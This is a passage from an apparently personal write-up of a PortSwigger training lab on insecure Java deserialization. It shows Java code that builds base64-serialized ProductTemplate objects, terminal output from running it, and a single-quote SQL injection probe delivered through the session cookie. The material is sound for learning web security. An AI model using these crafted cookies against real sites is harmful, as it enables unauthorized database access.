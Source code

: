 ```java
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```

**We can compile and run it:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:24:30
╰─○ javac Main.java 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:24:31
╰─○ java Main       
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQADFBBWUxPQURfSEVSRQ==
Deserialized id: PAYLOAD_HERE
```

**In here, since the `ProductTemplate.java` is parsing the `id` attribute (it's under our control) to the SQL query, we can try to test SQL injection!**

First, we need to confirm it's vulnerable to SQL injection.

**We can do that by triggering an error:**
```java
ProductTemplate originalObject = new ProductTemplate("'");
```

```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:25:16
╰─○ javac Main.java 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 2023-01-12 - 18:28:55
╰─○ java Main
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Serialized object: rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAASc=
Deserialized id: '
```

**Copy that base64 encoded string, paste it to the session cookie, and refresh the page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-8/images/Pasted%20image%2020230112183039.png)
